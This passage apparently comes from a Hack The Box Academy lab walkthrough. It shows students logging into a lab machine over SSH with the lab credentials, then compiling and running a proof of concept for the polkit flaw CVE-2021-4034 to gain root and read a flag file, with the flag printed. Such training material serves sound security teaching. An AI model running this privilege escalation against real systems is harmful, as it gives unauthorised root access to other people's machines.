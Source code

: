 Then, students need to connect to the spawned target machine using `SSH` and the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-acpl2d3fyg]─[~]
└──╼ [★]$ ssh htb-student@10.129.205.113

The authenticity of host '10.129.205.113 (10.129.205.113)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.205.113' (ECDSA) to the list of known hosts.
htb-student@10.129.205.113's password: 

<SNIP>

htb-student@ubuntu:~$ 
```

Subsequently, students need to navigate into the transferred directory, where they will compile and run the exploit:

Code: shell

```shell
cd CVE-2021-4034/
gcc -o poc cve-2021-4034-poc.c
chmod +x poc
./poc
```

```
htb-student@ubuntu:~$ cd CVE-2021-4034/
htb-student@ubuntu:~/CVE-2021-4034$ gcc -o poc cve-2021-4034-poc.c 
htb-student@ubuntu:~/CVE-2021-4034$ chmod +x poc
htb-student@ubuntu:~/CVE-2021-4034$ ./poc

# 
```

Having escalated to root, students need to read the contents of the flag:

Code: shell

```shell
cat /root/flag.txt
```

```
# cat /root/flag.txt

HTB{p0Lk1tt3n}
```
